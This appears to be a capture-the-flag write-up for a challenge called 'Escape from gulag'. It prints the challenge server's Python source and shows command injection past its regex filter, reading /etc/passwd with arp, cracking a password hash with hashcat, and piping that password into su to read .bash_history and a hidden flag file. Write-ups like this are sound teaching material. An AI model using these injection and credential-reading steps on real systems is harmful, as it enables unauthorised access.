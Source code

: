 # Escape from gulag

> First guess rbash, try every shell 🤡 because of "choose our favourite shell!!"

![](https://i.imgur.com/rPU7JqW.png)

> We have python3? nope big scam

![](https://i.imgur.com/Kdg5wsa.png)

> ls works outside of our directory :O

![](https://i.imgur.com/hvotrYj.png)

> Weird python file in /usr/bin

![](https://i.imgur.com/ie3JtFE.png)

> Check GTFOBins for arp, so now we can read and list files

![](https://i.imgur.com/MRf2dRE.png)

> Ran arp -v -f /etc/passwd (Intended Solution)
> I completely didn't see the hash and immediately went to look at the .py file

![](https://i.imgur.com/7CHplUe.png)

![](https://i.imgur.com/APOGuqF.png)


> Clean up the file
```
import socket
import subprocess as sp
from _thread import *
import re
def terminal(data):
    data = data.replace("`", "")
    data = data.replace("$", "")
    pattern = re.compile(r"\s*(?:&&|&|;|\|\||\|)\s*")
    commands = pattern.split(data)
    send_data = b""
    is_all_command = False
    for command in commands:
        for exception in ["ls", "echo", "su", "arp"]:
            if command.split(" ")[0] == exception:
                is_all_command = True
                break
            else:
                is_all_command = False
    if is_all_command:
        reply = sp.Popen(data, shell=True, stdout=sp.PIPE, stderr=sp.PIPE, stdin=sp.PIPE)
        send_data = reply.stdout.read() + reply.stderr.read()
    else:
        for command in commands:
            command = "/bin/rbash " + command
            reply = sp.Popen(command, shell=True, stdout=sp.PIPE, stderr=sp.PIPE, stdin=sp.PIPE)
            response = reply.stdout.read() + reply.stderr.read()
            for exception in ["ls", "echo", "su", "arp"]:
                if response.decode() == f"/home/pwn/bin/{exception}: /home/pwn/bin/{exception}: cannot execute binary file\n" or response.decode() == "/home/pwn/bin/echo: /home/pwn/bin/echo: cannot execute binary file\nPassword: su: Authentication failure\n":
                    command = command.replace("/bin/rbash ", "")
                    reply = sp.Popen(command, shell=True, stdout=sp.PIPE, stderr=sp.PIPE, stdin=sp.PIPE)
                    response = reply.stdout.read() + reply.stderr.read()
                    break
            send_data += response
    return send_data
def threaded_client(connection):
    connection.settimeout(300)
    try:
        connection.send(b"\n\nWelcome to Gulag, Joker. We are going to spend some good time together.\nNow choose our favourite shell!!\n\n")
        while True:
            connection.send(b"# ")
            data = connection.recv(1024)
            if data[:-1] == b"rbash":
                connection.send(b"# echo \"$x\"\n")
                connection.send(b"Good Choice!! Enjoy Your Stay\n")
                break
            elif data.replace(b"\n", b"") == b"":
                pass
            else:
                command = data[:-1].split(b" ")[0].split(b"/")[-1]
                connection.send(command + b': command not found\n')
        while True:
            connection.send(b"# ")
            data = connection.recv(99999).decode()[:-1]
            if data != "":
                response = terminal(data)
                connection.sendall(response)
    except:
        pass
    connection.close()
port = 8005
ip = ""
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
s.bind((ip, port))
s.listen(200)
ThreadCount = 0
print("Socket is listening")
while True:
    Client, address = s.accept()
    logs = '\nConnected to: ' + address[0] + ':' + str(address[1])
    print(logs)
    start_new_thread(threaded_client, (Client, ))
    ThreadCount += 1
    logs = 'Thread Number: ' + str(ThreadCount)
    print(logs)

```

> From the python script you can tell that it's not really rbash but just a regex and if statement that is decides if you can run the command, so you can break it with command;ls {any command};{valid command}
![](https://i.imgur.com/KdBIdrn.png)

> From the output I now see the hash 🤡

> Use rockyou.txt with hashcat
> password: zenisluffy

> From the script you can also su doesn't work because of Popen
> So you gotta use echo to parse to password to su
> echo zenisluffy | su -c "whoami" notroot

> Check the home directory of notroot and you see .bash_history
> echo zenisluffy | su -c "cat /home/notroot/.bash_history" notroot

![](https://i.imgur.com/nJ9MLdl.png)

> Find the txt file that was shown in the bash history
> echo zenisluffy | su -c "find / -name ert73uegdjd83hddyxt.txt -ls 2>/dev/null" notroot
> echo zenisluffy | su -c "cat /run/systemd/.systemd/ert73uegdjd83hddyxt.txt" notroot

![](https://i.imgur.com/YveHVyH.png)
